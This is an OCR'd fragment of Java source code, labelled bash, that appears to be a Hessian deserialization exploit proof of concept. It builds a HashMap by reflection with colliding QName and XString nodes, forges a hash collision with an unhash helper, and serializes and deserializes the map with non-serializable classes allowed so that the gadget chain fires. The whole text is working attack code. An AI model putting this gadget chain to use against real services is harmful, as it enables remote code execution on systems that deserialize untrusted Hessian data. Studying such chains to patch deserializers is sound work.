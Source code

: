 ```bash
        HashMap<Object, Object> hashMap = new HashMap<>();
        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        nodeC = Class.forName("java.util.HashMap$Node");
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, qName, qName, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, xString, xString, null));
        setFieldValue(hashMap, "table", tbl);
        String result=Hessian_serialize(hashMap);
        Hessian_unserialize(result);




    }
    private static void unhash0(StringBuilder partial, int target) {
        int div = target / 31;
        int rem = target % 31;
        if (div <= 65535) {
            if (div != 0)
                partial.append((char)div);
            partial.append((char)rem);
        } else {
            unhash0(partial, div);
            partial.append((char)rem);
        }
    }
    public static String unhash ( int hash ) {
        int target = hash;
        StringBuilder answer = new StringBuilder();
        if (target < 0) {
            answer.append("\\u0915\\u0009\\u001e\\u000c\\u0002");
            if (target == Integer.MIN_VALUE)
                return answer.toString();
            target = target & Integer.MAX_VALUE;
        }
        unhash0(answer, target);
        return answer.toString();
    }
    public static String Hessian_serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        HessianOutput hessianOutput=new HessianOutput(byteArrayOutputStream);
        SerializerFactory serializerFactory=new SerializerFactory();
        serializerFactory.setAllowNonSerializable(true);
        hessianOutput.setSerializerFactory(serializerFactory);
        hessianOutput.writeObject(object);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static void Hessian_unserialize(String obj) throws IOException, ClassNotFoundException {
        byte[] code=Base64.getDecoder().decode(obj);
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(code);
        HessianInput hessianInput=new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
    public static void setFieldValue(Object object, String field, Object value) throws NoSuchFieldException, IllegalAccessException {
        Field dfield=object.getClass().getDeclaredField(field);
        dfield.setAccessible(true);
        dfield.set(object,value);
```
